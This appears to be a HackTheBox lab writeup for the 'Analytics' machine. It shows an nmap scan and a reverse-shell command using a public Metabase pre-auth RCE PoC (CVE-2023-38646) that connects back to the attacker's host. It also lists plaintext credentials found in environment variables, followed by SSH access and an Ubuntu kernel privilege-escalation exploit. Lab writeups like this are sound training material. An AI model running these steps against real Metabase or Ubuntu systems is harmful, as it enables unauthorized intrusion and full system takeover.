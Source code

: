```yaml
---
title: "Analytics - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - easy
  - linux
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## Analytics
![](https://kar0nx.github.io/assets/images/writeup/f86fcf4c1cfcc690b43f43e100f89718.png)
## Reconnaissance

IP: 10.10.11.233
## NMAP

```
nmap -T4 -p- -A 10.10.11.233
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-29 11:16 UTC
Nmap scan report for analytics.htb (10.10.11.233)
Host is up (0.030s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
Device type: general purpose|router
Running: Linux 5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   29.66 ms 10.10.14.1
2   30.11 ms analytics.htb (10.10.11.233)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.04 seconds

```

## Website
### Site

After adding to /etc/hosts analytical.htb we got:

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829132028.png)

after clicking login we are redirected to data.analytical.htb (add to /etc/hosts) and we see login panel:

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829132345.png)

## Gaining Access

Tried to login with default credentials/ common ones but no hit so I searched for Metabase exploit in google and I found preauthenticated RCE
https://www.broadcom.com/support/security-center/attacksignatures/detail?asid=34306
PoC: https://github.com/securezeron/CVE-2023-38646

```
python3 CVE-2023-38646-Reverse-Shell.py --rhost http://data.analytical.htb --lhost 10.10.14.8 --lport 4444
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829133517.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829133455.png)

In env we can find credentials user and passsword (linpeas didn't detect it or I do sth wrong)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829135739.png)

```
META_USER=metalytics
META_PASS=An4lytics_ds20223#
```

We are able to login via ssh and get user flag.

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829135944.png)

## Privilege escalation

Linpeas found that kernel is outdated, so let's search for kernel exploits:

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829140216.png)

searching google I found reddit article about This exploit 
https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu_local_privilege_escalation_cve20232640/
and PoC on github: https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629

download exploit in machine and run to get root access:

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829142133.png)
